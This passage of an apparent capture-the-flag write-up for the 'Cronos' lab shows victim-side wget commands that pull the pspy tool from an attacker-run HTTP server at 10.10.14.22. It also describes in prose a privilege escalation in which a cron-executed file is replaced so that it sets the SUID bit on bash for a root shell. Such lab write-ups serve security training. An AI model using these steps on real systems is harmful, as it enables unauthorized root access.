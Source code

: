 > **Victime Machine**:

```bash
wget http://10.10.14.22/pspy
md5sum pspy
```

> **Attacker Machine**:

```bash
md5sum pspy
```

> **Victime Machine**:

```bash
chmod +x pspy
./pspy
# :( Version problem
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/pspy64 ./pspy
python3 -m http.server 80
```

> **Victime Machine**:

```bash
rm pspy
wget http://10.10.14.22/pspy
chmod +x pspy
./pspy
```

<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/cronos_writeup/Cronos_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The steps to **Escalate privileges** are not very complex to perform, I just have to delete the file that runs in the scheduled task and replace it with one that executes a malicious command, in this case I will enable the **SUID** bit to the `bash` **Shell** so that when executed with the **-p** parameter it preserves the permissions of the owner user and can escalate privileges. After waiting a few seconds, the change is done and I can get a **Shell** with the **root** user and access the last flag.
